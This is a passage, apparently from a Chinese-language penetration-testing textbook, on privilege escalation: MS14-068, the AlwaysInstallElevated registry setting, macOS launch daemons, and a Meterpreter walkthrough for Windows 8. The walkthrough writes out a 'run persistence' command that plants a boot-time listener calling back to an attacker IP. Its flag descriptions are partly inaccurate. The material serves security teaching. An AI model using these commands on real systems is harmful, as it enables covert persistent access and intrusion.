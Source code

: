 # 漏洞探索

漏洞探索是目前少数几种横向权限提升方式之一。由于系统的编码和安全性要求非常严格，横向权限提升的案例通常较少。此类权限提升发生在存在编程错误的系统和程序中。这些编程错误可能会引入漏洞，攻击者可以利用这些漏洞绕过安全机制。一些系统会接受某些短语作为所有用户的密码。这可能是一个编程错误，允许系统开发人员快速访问系统。然而，攻击者可能会迅速发现这个缺陷，并利用它访问拥有高权限的用户账户。其他编程错误可能允许攻击者在基于网页的系统的 URL 中更改用户的访问权限。在 Windows 中，曾有一个编程错误，允许攻击者使用普通域用户权限创建带有域管理员权限的 Kerberos 票证。这个漏洞被称为**MS14-068**。尽管系统开发人员可能非常小心，但这些错误有时还是会出现，并为攻击者提供了快速提升权限的途径。

有时，攻击者会利用操作系统的工作原理来利用一个未知的漏洞。

一个经典的例子是使用注册表键`AlwaysInstallElevated`，该键存在于系统中（设置为 1），并允许以提升（系统）权限安装 Windows 安装程序包。为了使此键被认为是启用的，以下值应设置为 1：

```
[HKEY_CURRENT_USERSOFTWAREPoliciesMicrosoftWindowsInstaller] 
"AlwaysInstallElevated"=dword:00000001 
[HKEY_LOCAL_MACHINESOFTWAREPoliciesMicrosoftWindowsInstaller] 
"AlwaysInstallElevated"=dword:00000001 
```

攻击者可以使用`reg`查询命令来验证此键是否存在；如果不存在，将会显示以下消息：

![](img/771f212f-ae0f-4de6-94c4-d72aeabe98f4.png)

这听起来可能无害，但如果深入思考，你会发现问题所在。你实际上是在给普通用户提供系统级权限来执行一个安装程序。如果这个安装包包含恶意内容怎么办？游戏结束！

# 启动守护进程

使用启动守护进程是另一种适用于基于 Apple 的操作系统（尤其是 OS X）的特权升级方法。当 OS X 启动时，`launchd`通常会运行以完成系统初始化。该进程负责加载来自`plist`文件的守护进程参数，这些文件位于`/Library/LaunchDaemons`目录中。守护进程有属性列表文件，指向要自动启动的可执行文件。攻击者可能利用这个自动启动过程来进行特权升级。他们可以安装自己的启动守护进程，并通过已启动的进程将其配置为在启动过程中启动。攻击者的守护进程可能会被赋予与操作系统或应用程序相关的伪装名称。启动守护进程是以管理员权限创建的，但它们以 root 权限执行。因此，如果攻击者成功，他们将能够使自己的守护进程自动启动，并将特权从管理员提升到 root。可以注意到，攻击者再次依赖一个原本合法的进程来执行特权升级。

# Windows 8 目标上特权升级的实际操作示例

该实际操作示例适用于 Windows 8，并且据报道在 Windows 10 上也有效。它利用了一些已经讨论过的技术，即 PowerShell 和 Meterpreter。这是一种狡猾的技术，迫使目标机器的用户在不知情的情况下允许合法程序运行，从而进行特权升级。因此，实际上是用户在不知情的情况下允许恶意行为者升级其特权。整个过程从 Metasploit 开始，特别是在 Meterpreter 中。首先使用 Meterpreter 与目标建立会话。攻击者利用这个会话向目标发送命令并有效地控制目标。

以下是一个名为`persistence`的脚本，攻击者可以用它与远程目标建立会话。该脚本在受害者的系统上创建一个持久化监听器，该监听器在启动时自动运行。

它的写法如下：

```
meterpreter >run persistence -A -L c:\ -X 30 -p 443 -r 10.108.210.25 
```

该命令在目标系统（`A`）上启动一个处理程序，将 Meterpreter 放置在受害者机器的`C`盘（`L c:\`），并指示监听器在启动时运行（`X`），每 30 秒检查一次（`i 30`），并连接到受害者 IP 地址的`443`端口。攻击者可以通过向目标机器发送`reboot`命令并观察其行为，检查连接是否简单。

`reboot`命令如下：
